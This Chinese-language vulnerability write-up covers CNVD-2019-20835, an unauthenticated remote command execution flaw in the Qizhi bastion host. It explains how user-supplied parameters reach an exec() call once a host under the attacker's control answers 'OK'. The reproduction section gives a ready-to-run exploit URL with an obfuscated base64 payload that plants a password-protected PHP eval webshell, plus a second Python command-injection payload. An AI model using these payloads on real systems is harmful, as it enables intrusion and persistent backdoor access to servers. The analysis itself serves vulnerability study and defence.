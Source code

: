 （CNVD-2019-20835）齐治堡垒机 前台远程命令执行漏洞
==================================================

一、漏洞简介
------------

利用条件：无需登录

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

问题出现在ha\_request.php文件，第37行的exec函数，\$url为用户可控的变量，可见第33和34行。目光来到第23和24行，只要node\_request函数的返回值为"OK"，即可跳过fatal函数（此函数为自定义函数，作用类似PHP内置的exit函数），继续往下执行。

　　Node\_request函数的定义在include/common.php文件中，见下图2。按照其原本的逻辑，其作用是请求\$url，并返回其内容。根据代码逻辑，\$url
=
\"http://\$req\_ipaddr\".\"/listener/\$method.php?n=\$req\_node\_id&a=\".urlencode(json\_encode(\$args));。所以\$url变量值类似于

<http://10.20.10.11/listener/cluster_manage.php?n=1&a=%5B%22install%22%5D>这样的字符串。

　　但是\$req\_ipaddr和\$req\_node\_id均来自用户输入。因此，假设10.20.10.11为黑客可控的服务器，listener/cluster\_manage.php文件的内容为"\<?php
echo
'OK';\>"，即可使得node\_request函数返回"OK"，从而跳过fatal函数，继续往下执行来到exec函数。

　　回到exec函数，此时该函数的第一个参数是这样的，\"wget
\--no-check-certificate http://10.20.10.11
/ha\_get\_install.php?n=\$req\_node\_id -O
backup\_scripts.tar.bz2\"，所以我们的payload只能放在\$req\_node\_id变量中。

　　见下图，\$req\_ipaddr和\$req\_node\_id其实来自于\$\_REQUEST\['ipaddr'\]和\$\_REQUEST\[node\_id'\]，并做了全局过滤，删除掉一些危险字符。![1.png](resource/(CNVD-2019-20835)齐治堡垒机前台远程命令执行漏洞/media/rId26.png)![2.png](resource/(CNVD-2019-20835)齐治堡垒机前台远程命令执行漏洞/media/rId27.png)![3.png](resource/(CNVD-2019-20835)齐治堡垒机前台远程命令执行漏洞/media/rId28.png)

### 漏洞复现

访问**http://www.0-sec.org/listener/cluster\_manage.php**返回"OK"。

执行以下链接即可getshell，执行成功后，生成PHP一句话马/var/www/shterm/resources/qrcode/lbj77.php
密码10086

    https://www.0-sec.org/ha_request.php?action=install&ipaddr=www.0-sec.org&node_id=1${IFS}|`echo${IFS}"ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}-d|bash`|${IFS}|echo${IFS}

据说还有另外一个版本是java的:

```
POST /shterm/listener/tui_update.php

a=["t';import os;os.popen('whoami')#"]
```



参考链接
--------

> https://www.cnblogs.com/StudyCat/p/11256944.html
